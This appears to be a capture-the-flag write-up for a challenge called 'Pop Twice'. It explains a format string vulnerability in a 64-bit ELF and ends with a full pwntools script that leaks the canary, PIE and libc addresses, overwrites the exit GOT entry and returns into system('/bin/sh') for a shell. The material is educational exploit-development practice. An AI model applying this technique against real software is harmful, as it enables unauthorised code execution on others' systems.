 # Pop Twice

The challenge file was given, an elf file checking the file propertise we could see it's a 64-bit ELF file, not stripped.

!](https://Cyberguru1.github.io/posts/phoenix/files/1688625170436.png)

let's try running the ELF file

![](https://Cyberguru1.github.io/posts/phoenix/files/1688625218436.png)

we could see it ask for input twice and print's out our input to us.

Decompiling the file in ghidra, we could see the decompiled source code:

![](https://Cyberguru1.github.io/posts/phoenix/files/1688625411779.png)

from the source code we could conclude that this is not our regular buffer overflow challenge, because for each input to the buffer there's a bound from the `fgets` function, `local_418` size is `512` and the max input is `0x200` which is `512` in decimal, simillar to `local_218`.

The only way to exploit this program is using the fomart string vulnerability, because our input stored in the buffer is printed right back to us.

Before going forward with the exploit let's run checksec on the ELF file to see the security mechanisms enabled on the file.

 ![](https://Cyberguru1.github.io/posts/phoenix/files/1688626124389.png)

we could see that `NX` and `PIE` bit is enabled, meaning we have non executable code in the stack and address layout randomization on the  ELF file respectively, we need to fuzz the ELF file and find some imortant address to bypass the security mechanism.

i wrote a simple bash fuzzer to perform this:

![](https://Cyberguru1.github.io/posts/phoenix/files/1688627879663.png)

running it we found the stack canary at index `43`

![](https://Cyberguru1.github.io/posts/phoenix/files/1688627999666.png)

we found `PIE` leak at index 139

![](https://Cyberguru1.github.io/posts/phoenix/files/1688628475148.png)

How do we know that's the `PIE` leak, this is true because main start at:

 ![](https://Cyberguru1.github.io/posts/phoenix/files/1688628544895.png)

`Libc` leak is found at index 137![](https://Cyberguru1.github.io/posts/phoenix/files/1688628727909.png)

having all this offset we could now proced with our exploit.

we could automate this using pwntools:

```python
# leaking offsets

canary_leak = "%43$p" # stack canary leak 
pie_leak = "%139$p"   # pie leak
libc_leak = "%137$p"  # libc leak

# sending payload 

p.sendline(canary_leak + " " + pie_leak +  " " +libc_leak)

result = p.recvuntil(b"\n").decode()
canary, pie, libcc = list(map(lambda x: int(x,16), result.split(" "))) 

```

we could now use the offsets found using gef to readjust the base address of the ELF files;

```python
## reseting the base address
exe.address = pie - 0x1159

log.info(f"base address : {hex(exe.address)}")

libc.address = libcc - 0x2718a  # setting libc address

log.info(f"libc address : {hex(libc.address)}")

```


let's now craft our shell payload to execute `/bin/sh`

```python

pop_rdi_ret = next(libc.search(asm('pop rdi; ret')))

exit_addr = exe.got['exit']

bin_sh = next(libc.search(b'/bin/sh\x00')) 

system_addr = libc.symbols['system']

# crafting payload for system("/bin/sh")

ad_payload = p64(pop_rdi_ret)
ad_payload += p64(bin_sh)
ad_payload += p64(system_addr)

```

using the fmtstr vulnerablity payload to reassign the `rip` pointer, we fuzz again to find the offset at which our input is stored on the stack, which is at index `70`,

using the offset we could reassing the `rip` to our payload.

the plan here to exploit this by saving our payload in the stack and running the program again and set our `rip` to where the payload is stored.

**How do we archive this ?**

we start the program and use the fmtstr vulnerability to get all necessay address to bypass the security mechanism, we then set `rip` back to main to run the program again this time we store the payload on the stack, after doing that we set the `rip` back to `pop_rdi_ret ` to run the content stored on the stack.

```python
fpayload = fmtstr_payload(70, {exit_addr:exe.symbols['main']})


p.send(fpayload)
p.sendline()


# sending the payload to save in first buffer
# for use later

p.send(ad_payload)
p.sendline()

# pointing the exit GOT addr to the payload on the buffer

fpayload = fmtstr_payload(70, {exit_addr:pop_rdi_ret})

p.send(fpayload)
p.sendline()
```

Getting all this together we have:

```python
#!/usr/bin/python

from os import system
from pwn import *
from struct import pack

## settings
context.binary = exe =  ELF("./chall")


## initializing libc
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

## spawing process
p = process(exe.path)


s_arr1 = 512 # size of buff1
s_arr2 = 520 # size of buff2

# leaking offsets

canary_leak = "%43$p" # stack canary leak 
pie_leak = "%139$p"   # pie leak
libc_leak = "%137$p"  # libc leak

# sending payload 

p.sendline(canary_leak + " " + pie_leak +  " " +libc_leak)

result = p.recvuntil(b"\n").decode()
canary, pie, libcc = list(map(lambda x: int(x,16), result.split(" "))) 


## reseting the base address
exe.address = pie - 0x1159

log.info(f"base address : {hex(exe.address)}")

libc.address = libcc - 0x2718a  # setting libc address

log.info(f"libc address : {hex(libc.address)}")


pop_rdi_ret = next(libc.search(asm('pop rdi; ret')))

exit_addr = exe.got['exit']

bin_sh = next(libc.search(b'/bin/sh\x00')) 

system_addr = libc.symbols['system']

# crafting payload for system("/bin/sh")

ad_payload = p64(pop_rdi_ret)
ad_payload += p64(bin_sh)
ad_payload += p64(system_addr)

 
# using fmtstring vuln to call main again

fpayload = fmtstr_payload(70, {exit_addr:exe.symbols['main']})


p.send(fpayload)
p.sendline()


# sending the payload to save in first buffer
# for use later

p.send(ad_payload)
p.sendline()

# pointing the exit GOT addr to the payload on the buffer

fpayload = fmtstr_payload(70, {exit_addr:pop_rdi_ret})

p.send(fpayload)
p.sendline()


# gdb.attach(p, f"""b * main+120
#                 init-gef
#                 got
#                 register
#                 c
#                 x/30wgx $rsp
#                 x/s {bin_sh}
#                 x/s {system_addr}
#                 x/i {pop_rdi_ret}""")

p.interactive()





```


Running the script we have our shell :

![](https://Cyberguru1.github.io/posts/phoenix/files/1688631576538.png)
